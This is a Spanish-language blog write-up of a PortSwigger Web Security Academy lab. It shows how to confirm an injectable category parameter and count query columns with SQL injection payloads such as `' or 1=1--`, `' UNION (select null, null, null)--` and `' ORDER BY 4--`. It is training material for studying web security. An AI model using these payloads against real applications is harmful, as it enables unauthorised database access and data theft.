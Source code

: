 ```yaml
---
title: "03 SQLi UNION attack determining the number of columns returned by the query"
collection: publications
category: portswigger
permalink: /publications/03_SQL injection UNION attack, determining the number of columns returned by the query
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría del filtro de productos. Esta vulnerabilidad puede explotarse mediante un ataque UNION para recuperar datos de otras tablas. Para resolver el laboratorio, realizamos un ataque de inyección SQL que determina el número de columnas que devuelve la consulta. Este es el primer paso de un ataque UNION de inyección SQL. Utilizaremos esta técnica en laboratorios posteriores para construir el ataque completo.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi UNION attack determining the number of columns returned by the query'
---
```


![logo]({{site.url}}/images/SQLi/sqli-3/logo.png)

Este escrito para el laboratorio *SQL injection UNION attack, determining the number of columns returned by the query* pertenece a PortSwigger [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Dificultad: PRACTITIONER  

## Descripción del laboratorio

![lab_description]({{site.url}}/images/SQLi/sqli-3/lab_description.png)

## Query

La consulta utilizada en el laboratorio tendrá un aspecto similar a

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Pasos

### Confirmar argumento inyectable

El filtrado de categorías funciona basándose en el argumento URL `category`. Primero tengo que confirmar que este argumento es inyectable creando un error.

El argumento normal es, por ejemplo, `/filter?category=Accessories`. Empieza inyectando una comilla simple al final: `/filter?category=Accessories'`.

--> Esto resulta en un Error Interno del Servidor por parte de la aplicación ya que la consulta SQL es inválida ahora y se verá así, teniendo una comilla simple ilegal al final:

```sql
SELECT * FROM someTable WHERE category = 'Accessories''
```

A continuación, pruebo el caso bueno inyectando algo que resulta en una consulta válida: `/filter?category=Accessories%27%20or%201=1--`. El resultado es una consulta como ésta, que devuelve todas las filas y elimina la comilla simple errónea y todo lo que pueda venir después:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' or 1=1--'
```

Devuelve el listado completo, básicamente el mismo contenido que si no se hubiera utilizado ningún filtro. Esto es una indicación de que lo que vendría después y se comenta no interfiere con el resultado.

### Contar columnas por UNION SELECT

En una UNION, los conjuntos de resultados deben contener el mismo número de columnas. Inyectar `' UNION (select null)--` producirá un error en el servidor.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null)--'
```

Utilizo llamadas repetidas, aumentando cada vez el número de ``nulls``. El recuento de columnas correcto se puede encontrar inyectando `' UNION (select null, null, null)--`. Por lo tanto, esta consulta es válida:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null, null, null)--'
```

Ahora sé que hay tres columnas y el laboratorio se actualiza a

![success]({{site.url}}/images/SQLi/sqli-3/success.png)

### Contar columnas por ORDER BY

Una forma alternativa de contar las columnas es con `ORDER BY`. Inyectando `' ORDER BY 1--` ordenará los resultados por la primera columna del resultado. Incrementar el valor conduce a un error interno del servidor cuando se utiliza `' ORDER BY 4--` ya que se ordena a la base de datos por una columna que no existe. Por lo tanto, el número correcto de columnas es 3.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' ORDER BY 4--
```
